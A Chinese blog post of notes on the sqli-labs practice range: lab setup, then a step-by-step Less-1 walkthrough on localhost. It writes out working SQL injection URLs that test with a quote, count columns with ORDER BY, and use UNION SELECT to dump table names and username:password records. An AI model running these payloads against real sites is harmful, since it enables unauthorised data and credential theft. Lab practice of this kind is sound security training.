 ```yaml
---
 title: SQL-labs过关笔记
 date: 2020-12-26 14:12:00
 categories: technique
 tags: []
 urlname: 7
--- 
```


SQL-labs靶场搭建；
①docker搭建：[参考链接][1]，博文还提供通关指南
②本地搭建：Github[链接][2]，将下载后的文件夹放入phpstudy中的www目录下，开启phpstudy的Apache和mysql服务，之后就可以通过`http://本机ip/sqli-labs` 访问靶场进行关卡选择

过关参考（**部分**）：
对于一般的靶场实验要求，主要的步骤为：测试是否存在SQL注入，寻找注入点->爆库名、表名、列名、记录
一些不同的关卡通关方式也比较类似，所以针对相同的一些步骤这里只进行简要说明。
1、Less-1
(1)根据提示“Please input the ID as parameter with numeric value”可知为GET方法，数据在URL中，所以构造URL：`http://127.0.0.1/sqli-labs/Less1/?id=1 || 2` 并访问，如下显示 id 对应用户名和密码：
![Less-1.1][3]
![Less-1.2][4]
(2)构造URL：`http://127.0.0.1/sqli-labs/Less-1/?id=2-1` 并访问，显示 id=2 的用户信息页面，证明该注入点并非数字型注入
![less-1.3][5]
(3)构造URL：`http://127.0.0.1/sqli-labs/Less-1/?id=2'` 并访问，页面返回了SQL语法报错信息，证明单引号已经拼接到后台SQL语句中，起到了闭合作用，并影响了后台SQL查询行为
![less-1.4][6]
(4)构造URL：`http://127.0.0.1/sqli-labs/Less-1/?id=1' --+`访问，前者页面返回了数据库报错信息，后者页面返回正常，又--+在数据库中表示注释，猜测该系统后台SQL查询语句应该类似于如下语句：
    SELECT username, password FROME t_user WHERE UserID = '1' LIMIT 0,1
![less-1.5][7]
(5)通过ORDER BY判断表的列数，因为 ORDER BY num 通过按第num列将元组排序，当num超过列数时返回错误信息，所以可以通过它判断表的列数，提交的URL格式为： `http://127.0.0.1/sqli-labs/Less-1/?id=1' ORDER BY num--+`，将 ORDER BY 的数字num从2逐步增大到3页面返回正常，直到增大为4时页面返回报错信息"Unknown column"，表明数据表的列数为3列：
![less-1.6][8]
(6)找注入点：将 id=1 改为一个数据库不存在的 id 值，如-1，因为不存在 id 为-1 的所以前面的查询为空(也可以使用id=1 and 1=2，只要保证联合查询前者为空)，通过联合查询显示后面的查询结果。因为已得出有三列，使用 union select 1,2,3 联合查询语句查看页面是否有显示位，构造的 URL 如下：`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,3--+`，返回页面表明有两个显示位，分别显示了数字 2、3，可通过这两个显示位爆出需要的数据，界面如下：
![less-1.7][9]
(7)爆库名：构造URL ： `http://127.0.0.1/sqli-labs/Less-1/?id=-1' UNION SELECT 1,database(),3--+`，在第二个显示位得到数据库名称位security，如图：
![less-1.8][10]
(8)爆表名：构造URL：`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+`，其中information_schema是所有数据库中都存在的表，通过group_concat把所有的表名从information_schema 中查询出，爆出库中的有 4 张表:emails,referers,uagents,users，猜测其中用户名表名为 users，如下图：
![less-1.9][11]
(9)爆列名：构造URL：`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+`，爆出列名有 id、username、password，如图：
![less-1.10][12]
(10)爆记录：对关心的用户名和密码进行爆破，构造如下URL：`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(username,":",password) from users--+` ，其中”:”整体可以替换为十六进制表示的 0x3a，同样能被MySQL识别，如图：
![less-1.11][13]


  [1]: https://blog.csdn.net/qq_39670065/article/details/106762824?utm_medium=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control
  [2]: https://github.com/Audi-1/sqli-labs
  [3]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.1.png
  [4]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.2.png
  [5]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.3.png
  [6]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.4.png
  [7]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.5.png
  [8]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.6.png
  [9]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.7.png
  [10]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.8.png
  [11]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.9.png
  [12]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.10.png
  [13]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.11.png
  [14]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.1.png
  [15]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.2.png
  [16]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.3.png
  [17]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.4.png
  [18]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.5.png
  [19]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.6.png
  [20]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.7.png
  [21]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.8.png
  [22]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.1.png
  [23]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.2.png
  [24]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.3.png
  [25]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.1.png
  [26]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.2.png
  [27]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.3.png
  [28]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.4.png
  [29]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.5.png
  [30]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.6.png
  [31]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.7.png
  [32]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.8.png
  [33]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.9.png
  [34]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.1.png
  [35]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.2.png
  [36]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.3.png
  [37]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.4.png
  [38]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.5.png
  [39]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.6.png
  [40]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.7.png
  [41]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.8.png
  [42]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.9.png
  [43]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.1.png
  [44]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.2.png
  [45]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.3.png
  [46]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.4.png
  [47]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.5.png
  [48]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.6.png
  [49]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.7.png
